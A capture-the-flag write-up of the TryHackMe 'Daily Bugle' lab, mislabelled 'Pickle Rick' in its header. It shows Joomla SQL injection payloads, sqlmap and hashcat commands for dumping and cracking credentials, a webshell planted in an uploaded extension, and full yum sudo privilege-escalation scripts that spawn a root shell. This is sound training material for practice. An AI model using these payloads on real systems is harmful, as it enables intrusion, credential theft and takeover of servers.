

# THM - Daily Bugle CTF

# TryHackMe: Daily Bugle CTF
[Back to Table of Contents](../cysec) 

Notes/writeup for the THM CTF machine titled "Pickle Rick." \
[PickleRick on TryHackMe](https://tryhackme.com/room/dailybugle)

## Initial Scans
```
whatweb: 
http://10.10.141.227/ [200 OK] Apache[2.4.6], Bootstrap,
Cookies[eaa83fe8b963ab08ce9ab7d4a798de05], Country[RESERVED][ZZ], HTML5, 
HTTPServer[CentOS][Apache/2.4.6 (CentOS) PHP/5.6.40], 
HttpOnly[eaa83fe8b963ab08ce9ab7d4a798de05], IP[10.10.141.227], JQuery, 
MetaGenerator[Joomla! - Open Source Content Management], PHP[5.6.40], 
PasswordField[password], 
Script[application/json], Title[Home], X-Powered-By[PHP/5.6.40]

---
Nmap:
Nmap scan report for 10.10.141.227
Host is up (1.5s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql

---

Nikto:
+ Server: Apache/2.4.6 (CentOS) PHP/5.6.40
+ Retrieved x-powered-by header: PHP/5.6.40
+ The anti-clickjacking X-Frame-Options header is not present.
+ Cookie eaa83fe8b963ab08ce9ab7d4a798de05 created without the httponly flag


directory enumeration:
---- Scanning URL: http://10.10.141.227/ ----
==> DIRECTORY: http://10.10.141.227/administrator/                             
==> DIRECTORY: http://10.10.141.227/bin/                                       
==> DIRECTORY: http://10.10.141.227/cache/                                     
+ http://10.10.141.227/cgi-bin/ (CODE:403|SIZE:210)                            
==> DIRECTORY: http://10.10.141.227/components/                                
==> DIRECTORY: http://10.10.141.227/images/                                    
==> DIRECTORY: http://10.10.141.227/includes/                                  
+ http://10.10.141.227/index.php (CODE:200|SIZE:9497)                          
==> DIRECTORY: http://10.10.141.227/language/                                  
==> DIRECTORY: http://10.10.141.227/layouts/                                   
==> DIRECTORY: http://10.10.141.227/libraries/                                 
==> DIRECTORY: http://10.10.141.227/media/                                     
==> DIRECTORY: http://10.10.141.227/modules/                                   
==> DIRECTORY: http://10.10.141.227/plugins/                                   
+ http://10.10.141.227/robots.txt (CODE:200|SIZE:836)                          
==> DIRECTORY: http://10.10.141.227/templates/                                 
==> DIRECTORY: http://10.10.141.227/tmp/                                       
                                                                               
---- Entering directory: http://10.10.141.227/administrator/ ----
==> DIRECTORY: http://10.10.141.227/administrator/cache/                       
==> DIRECTORY: http://10.10.141.227/administrator/components/                  
==> DIRECTORY: http://10.10.141.227/administrator/help/                        
==> DIRECTORY: http://10.10.141.227/administrator/includes/                    
+ http://10.10.141.227/administrator/index.php (CODE:200|SIZE:4846)            
==> DIRECTORY: http://10.10.141.227/administrator/language/                    
==> DIRECTORY: http://10.10.141.227/administrator/logs/    
	- 

```

---

## The Webpage:

The landing page consists of a mock news media site, with a login panel prompting username and password on the right side. 
- We know that this CTF will contain SQLi, so this may be our entry point
- We know from both the CTF as well as the whatweb scan that the site is using the Joomla CMS

---

## SQLi: 
The first step I took after making my initial scans was to look up known Joomla SQLi vulnerabities. I don't [yet] know the Joomla version, but [CVE-2017-8917](https://www.exploit-db.com/exploits/42033) pops up immediately on google and the exploitDB page even gives a sqlmap example command! 

While that is cool, I want to try to attempt to do this manually, so I'm going to keep the sqlmap command in the back of my mind and dive into attempting manual exploitation.

> The vulnerable parameters/URL is:
```
http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27
```
 - Specifically, the "com_fields" parameter is injectable. 

The exploitDB page also provides some different payloads for manual exploitation, including error-based, boolean-based blind, and AND/OR time-based blind. 

My first attempt, of course, will be error-based. 
### Error-based payload:
```
option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)b)c)
```

After entering the payload, I did indeed receive an error:
```
500 Duplicate entry 'qqvpq1qjpvq1' for key 'group_key' 
```

This at least shows that we are on the right track. I tried experimenting with the payload but ultimately was not succesful, so I moved onto another payload.

### Boolean-based blind payload:
```
option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (1573=1573) THEN 1573 ELSE 1573*(SELECT 1573 FROM DUAL UNION SELECT 9674 FROM DUAL) END)
```

Appending this payload after index.php? resulted in a security token error, however appending it to the login page actually resulted in another error:

```
500 View not found [name, type, prefix]: fields, html, usersView
```

I went back to the error-based payload and tried googling the error message. 
I found a [stackoverflow article](https://stackoverflow.com/questions/26725772/duplicate-entry-for-key-group-key) and tried adding b)c) to the query as suggested in one of the answers. 
This returned a new error: 
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'b)c)' at line 9 
```

Still receiving the duplicate entry error, I went back to google to try searching for duplicate entry with SQLi

```
Every derived table must have its own alias
```

After experimenting with the requests for a bit longer, I decided to go to sqlmap and used the -r switch with a text file containing a request from burp with the vulnerable parameters:



```
sqlmap -r request.txt
```
SQLMap then returned with the vulnerable parameters, confirming the information from exploitDB.


Next, I used sqlmap to enumerate the tables for any interesting information as well as to find any users and passwords.

```
sqlmap -r request.txt --users --passwords --tables --random-agent
```

This quickly returned a massive amount of information, including:
Databases:
- joomla
- mysql
- information_schema

SQLMap also returned a password hash from the mysql database. I thought this may be an alternative way in, and used haiti to confirm the hash type:
```
haiti *B04E65424026AC47B5626445B67352EBEFD78828
MySQL5.x [HC: 300] [JtR: mysql-sha1]
MySQL4.1 [HC: 300] [JtR: mysql-sha1]
```

I ran hashcat with rockyou.txt and it was quickly exhausted. I then tried with my custom wordlist, which is quite a bit larger, and still, no password was found. It seemed that this was a rabbit hole, so I went back to sqlmap to enumerate the joomla database.

The joomla database contains a table called
`#__users`  which I was specifically interested in. The columns had to be enumerated, so I trimmed down the columns wordlist to just about 20 words relating to username, password, pass, etc. 

This returned a usser entry and hash. 


```
Database: joomla
Table: #__users
[1 entry]
+-----+------------+--------------------------------------------------------------+----------+
| id  | name       | password                                                     | username |
+-----+------------+--------------------------------------------------------------+----------+
| 811 | Super User | $2y$redacted.................................................| jonah    |
+-----+------------+--------------------------------------------------------------+----------+

```

The hash is encrypted with blowfish: 
```
bcrypt $2*$, Blowfish (Unix)

hashcat --help | grep Blowfish
   3200 | bcrypt $2*$, Blowfish (Unix)                        | Operating System
  18600 | Open Document Format (ODF) 1.1 (SHA-1, Blowfish)    | Document

hashcat -m 3200 -a 0 blowfish.txt wordlist.txt
```

Unfortunately, blowfish/bcrypt takes quite a while to bruteforce, even with hashcat. Just as I was going to separate the wordlist and look for clues to target the attack, hashcat cracked the password. 

---
## Foothold

> We now are authenticated on the website as user jonah -- "Super User." The next step is to transition to get a foothold on the actual machine. 

Since we have what appears to be admin rights, it may be possible to upload a webshell via the administrator panel that was found during initial enumeration.

I also searched for Joomla RCE vulnerabilities and [found there to be one on exploitDB](https://www.exploit-db.com/exploits/47465).

Before trying that, I decided to try getting RCE via either installing or editing an extension/module and adding a webshell to it, as I have done this previously with a wordpress extension on another CTF. 

The extension uploader did not allow me to upload a plain php webshell, so I went on google to search for joomla extensions to see if I could find the format, or edit a free extension with a webshell and then upload it.

I downloaded a random poll extension and saw that there was no special formatting, it simply wanted a zipped directory.
I replaced the install script with the webshell, zipped it, uploaded, and got my shell. 

---

I upgraded the shell with:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
At this point, the shell is for user apache, which is low-privilege, similar to www-data. 

I navigated to home to see if I could find anything interesting but the home directory for user jjameson was inaccessible. 

I went back to the root directory and ran:
```
find . -perm /4000
```
to see if I could find any SUID privesc routes.

I ran various searches including looking for SUID and GID files,  text files, bash scripts, and so on, but didnt find anything. 

I was a bit stuck, and decided to try to manually look through some of the directories where I've found random things before, and after a while, I found that running:
```
cat * | grep password
```
in the /var/www/html directory returned a password from the configuration.php file. 

After looking through the file manually, I noticed reference to mysql. I thought that perhaps this password would be the one for the hash I couldn't crack earlier, and just to confirm this, I ran hashcat again against a wordlist containing just this password and another string from the configuration file called "secret". Sure enough, this was the password. 

```
public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'root';
	public $password = 'redacted';
	public $db = 'joomla';
	public $dbprefix = 'redacted';
	public $live_site = '';
	public $secret = 'redacted';

```
I immediately tried to change to root, but the password didn't work. I opened a new terminal instance and tried ssh, but that failed as well. As a last chance, I went back to the reverse shell and tried using the password for the user jjameson, and surprisingly, it worked. 

I obtained the user flag from user jjameson's home directory, and then got back to finding a privesc route. 

Now that a password has been obtained, it is possible to check for sudo command access.
```
sudo -l
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum

```


With sudo access to yum, we can use the privesc method from GTFOBins to escalate to root:
```
TF=$(mktemp -d)
echo 'id' > $TF/x.sh
fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
sudo yum localinstall -y x-1.0-1.noarch.rpm
```
This attack works by creating a malicious package and using yum to install and execute it. 

This, however, is not possible on this machine as fpm is not installed. The two options are to either find a way to install it, or simply use the other, slightly longer method:
```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
This method creates a custom plugin. 


After succesfully executing this exploit and escalating privileges to root, we can run:
```
cat /root/root.txt
```
and we get the root flag!


